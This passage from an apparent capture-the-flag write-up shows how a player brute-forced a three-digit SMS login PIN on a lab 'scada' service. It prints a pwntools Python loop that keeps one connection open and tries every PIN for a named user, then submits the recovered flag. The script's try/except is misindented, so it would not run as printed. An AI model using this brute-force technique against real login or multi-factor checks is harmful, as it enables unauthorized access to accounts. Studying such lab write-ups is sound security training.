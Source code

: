 ```sh
We have now sent a login PIN to you via SMS
Enter PIN: 11111
..the provided PIN was not correct.
..the provided PIN was not correct.
..the provided PIN was not correct.
```
---

#### Bruteforce
We write a quick and dirty [Python script](./3_scada/aksess/access_backdoor.py) that runs a loop that tries to login with the username `Joe5Farnaby`. It is possible to bruteforce this PIN as the connection after the first attempt is still open, and continue allowing the client to send data. Running this script gives us a welcome back message and the flag is included.

```python
from pwn import *
while True:
    io = remote("scada", 1338)
    io.recvuntil(':')
    io.send("Joe5Farnaby")
    io.recvuntil(':')
    try:
        for i in range(999):
            pin = str(i).zfill(3)
            io.sendline(pin)
            data = io.recv()
            if b"Welcome back" in data:
                # PIN worked, we are in!
                io.recvline()
                io.recvline()
                io.recvline()
                io.recvline()
                exit(0)
            elif b"too many digits" in data:
                # You have entered too many digits for the MFA check
                # Reset connection
                break
            # else: the provided PIN was not correct
        except Exception as e:
            print("Exception in client:", e)
    io.close()
```

---

```sh
login@corax:~$ scoreboard 6b7e34a771b84d0863ce3c7dbd887463
Kategori: 2. Oppdrag
Oppgave:  2.3_scada_aksess
Svar:     6b7e34a771b84d0863ce3c7dbd887463

Godt jobbet! Nå må du bare hjelpe gisselet med å komme seg ut av bygningen!
```
